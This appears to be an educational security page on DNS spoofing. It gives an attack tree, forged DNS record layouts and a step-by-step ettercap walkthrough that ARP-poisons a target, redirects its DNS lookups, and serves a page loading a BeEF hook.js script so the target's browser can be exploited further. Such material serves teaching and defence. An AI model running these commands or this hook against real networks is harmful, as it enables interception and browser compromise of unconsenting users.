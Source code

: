 # DNS spoofing

## Attack tree

```text
1 Hijack a local DNS (OR)
    1.1 Install malware on host
    1.2 Change local DNS settings for a redirect
2 Poison DNS cache (OR)
    2.1 Install a dns spoofing tool such as dns-spoof or ManOnTheSideAttack-DNS Spoofing (AND)
    2.2 Sniff the network traffic and intercept all DNS queries matching a given domain name from the victim (AND)
    2.3 Forge and send a valid response (the corrupt data gets cached by the DNS name server) (AND)
        2.3.1 Redirect the target domain's name server (cache an additional A-record for ns.target.example) (OR)
        2.3.2 Redirect the NS record to another target domain (cache unrelated authority information for target.example's NS-record)
    2.4 When the cache is poisoned (if it is a major DNS server, it can poison the caches of DNS servers 
    maintained by internet service providers), launch further attacks
3 Hijack a Router DNS (OR)
    3.1 Compromise router (AND) 
        3.1.1 Default passwords (OR)
        3.1.2 Use firmware vulnerabilities
    3.2 Overwrite DNS settings
4 Rogue DNS Server (OR)
    4.1 Compromise a DNS server (AND) 
    4.2 Change DNS records to redirect DNS requests
5 Use DNSSEC vulnerabilities
    5.1 Lack of data confidentiality (Sniff and use for further attacks)
    5.2 Misconfigured DNSSEC
    5.3 Zone enumeration (Only NSEC, NSEC3 and NSEC5 publish hashed records of hostnames)
```

## Examples

### DNS spoofing and cache poisoning

1. Modify the `/etc/ettercap/etter.dns` and add an entry to the file for the domain name "site.com" and have it point 
to the attack host.

```text
$ echo "site.com A <IP address attack host>" | sudo tee -a /etc/ettercap/etter.dns site.com A <IP address attack host>
```
2. Create a web page named `index.html` in the `/tmp` directory of the attack host to load a JavaScript BeEF hook 
using the BeEF `hook.js` file:

```html
<HTML>
    <HEAD>
        <script src="http://site.com:3000/hook.js"></script>
    </HEAD>
    <BODY>
        You have been hooked!
    </BODY>
</HTML>
```

This is the web page the user will be directed to when they try to connect to `site.com`.

3. Use either the Python http server module to host the web page on port 80, OR move the file to `/var/www/html/` 
and start the apache2 server.

```text
# python -m SimpleHTTPServer 80
# service apache2 start
```

4. Launch and login to BeEF
5. Open a second terminal and use Nmap to identify other hosts by just using ARP packets by specifying the `-sn` flag 
to disable port scanning and using the `-n` flag to stop IP address resolution: 

```text
# sudo nmap -n -sn <IP address attack host>/24
```

6. With a target host system found (<IP address target>) on the local network, find the gateway address for the local 
network using the `ip route` command:

```text
# ip route
```

7. Establish an ARP poisoning session between the local network gateway (<IP address gateway>) and the target 
(<IP address target>)

```text
# ettercap -M arp:remote -T -q /<IP address gateway>// /<IP address target>//
```

* The `-M` flag sets up for MiTM (on-path), using the remote arp technique. 
* The `-T` argument puts it in text-only mode. 
* The `-q` argument prevents Ettercap from printing the full packet contents, to make the output more readable. 
* The last part is the gateway and target in the format: `MAC address/IPv4 addresses/IPv6 addresses/Ports`. Not using 
the MAC adress, IPv6 adressess or ports explains the blanks and the slash delimiters.

8. Enable the DNS plugin. Type `p` to list the plugins. Choose the `dns-spoof` plugin. When it is active and the 
victim navigates to the web page `http://site.com/index.html`, they will see the spoofed and hooked page. Inside
the terminal with Ettercap, you can see the spoof succeed.
9. To exit Ettercap, press q.
10. In BeEF, see the target machine under the Online Browsers tab. From here, use BeEF to exploit the target further.

### Forging redirection records for poisoning

Redirect the target domain's name server (cache an additional A-record for ns.target.example:

```text
        +---------------------+
        | ANSWER              | (no response)
        +---------------------+
        | AUTHORITY           | adversary.example. 3600 IN NS ns.target.example.
        +---------------------+
        | ADDITIONAL          | ns.target.example. IN A xxx.xxx.xxx.xxx
        +---------------------+
```

Redirect the NS record to another target domain (cache unrelated authority information for target.example's NS-record):

```text
        +---------------------+
        | ANSWER              | (no response)
        +---------------------+
        | AUTHORITY           | target.example. 3600 IN NS ns.adversary.example.
        +---------------------+
        | ADDITIONAL          | ns.adversary.example. IN A xxx.xxx.xxx.xxx
        +---------------------+
```

## Notes

* DNS spoofing can be achieved by DNS redirection, an attack in which an adversary modifies a DNS server in order to 
redirect a specific domain name to a different IP address. In many cases, the new IP address will be for a server 
controlled by the adversary which contains files infected with malware. 
* Cache poisoning is another way to achieve DNS spoofing, without relying on DNS hijacking (physically taking over the 
DNS settings). An adversary inserts a forged DNS entry, containing an alternative IP destination for the same domain 
name, after which the DNS server resolves the domain to the spoofed website, until the cache is refreshed.
* DNS server spoofing attacks are often used to spread computer worms and viruses.
* This kind of attack is also often used for pharming.

## Tools

* [Ettercap](https://www.ettercap-project.org)
* [BeEF XSS](https://www.kali.org/tools/beef-xss/)
